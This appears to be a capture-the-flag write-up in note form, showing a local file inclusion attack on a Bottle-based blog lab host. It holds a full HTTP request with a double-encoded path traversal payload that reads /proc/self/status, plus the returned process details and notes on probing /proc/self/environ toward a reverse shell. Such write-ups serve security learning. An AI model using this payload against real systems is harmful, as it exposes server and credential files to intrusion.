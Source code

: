 
Was able to see that we had `LFI` by listing `/etc/passwd` but was unable to find anything in the default locations such as `root/.ssh/id_rsa`, `/home/hcue/.ssh/id_rsa` 
- in order to get the `LFI` to work we need to double encode them with `CTRL+U x2`
#### /proc
default locations didnt lead anywhere so refered to `discord` messages which lead to look at the `/proc`
- https://www.kernel.org/doc/html/latest/filesystems/proc.html
this shows potential files to look for 
![[Pasted image 20241217110342.png]]
once we have knowledge of this path we begin testing - the first of which is `/proc/self/status`. In order to use this with the `LFI` utilized the request
- it is double encoded
request
```http
GET /view?page=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fproc%252fself%252fstatus HTTP/1.1
Host: bottleup:8080
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: name="!nkLtajFuXbtwrFsb87EDGg==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFZ3Vlc3SUc4aULg=="
Connection: keep-alive
```
response
```bash
Name:	python3
Umask:	0022
State:	R (running)
Tgid:	921
Ngid:	0
Pid:	921
PPid:	1
TracerPid:	0
Uid:	1000	1000	1000	1000
Gid:	1000	1000	1000	1000
FDSize:	128
Groups:	1000 
NStgid:	921
NSpid:	921
NSpgid:	921
NSsid:	921
VmPeak:	   28148 kB
VmSize:	   28148 kB
VmLck:	       0 kB
VmPin:	       0 kB
VmHWM:	   20540 kB
VmRSS:	   20540 kB
RssAnon:	   11556 kB
RssFile:	    8984 kB
RssShmem:	       0 kB
VmData:	   11532 kB
VmStk:	     132 kB
VmExe:	    2788 kB
VmLib:	    4936 kB
VmPTE:	      96 kB
VmSwap:	      84 kB
HugetlbPages:	       0 kB
CoreDumping:	0
THP_enabled:	1
Threads:	1
SigQ:	0/7572
SigPnd:	0000000000000000
ShdPnd:	0000000000000000
SigBlk:	0000000000000000
SigIgn:	0000000001001000
SigCgt:	0000000180000002
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	0000003fffffffff
CapAmb:	0000000000000000
NoNewPrivs:	0
Seccomp:	0
Speculation_Store_Bypass:	thread vulnerable
Cpus_allowed:	3
Cpus_allowed_list:	0-1
Mems_allowed:	00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000001
Mems_allowed_list:	0
voluntary_ctxt_switches:	206039
nonvoluntary_ctxt_switches:	21627
```
burp of `request` & `response`
![[Pasted image 20241217111041.png]]
digging down this rabbit hole of `/proc` led me down this post as well as other blogs about `/proc/self/environ` as well as to go from `LFI > REVSHELL`
https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/#lfi-via-procselfenviron
![[Pasted image 20241216214020.png]]
testing to see if we can access `/proc/self/environ` and we do
![[Pasted image 20241217114931.png]]
checking to see if we have `/proc/self/cmdline` - this discovers the `/usr/bin/python3/opt/bottle-blog/app.py` which is the path
![[Pasted image 20241217115033.png]]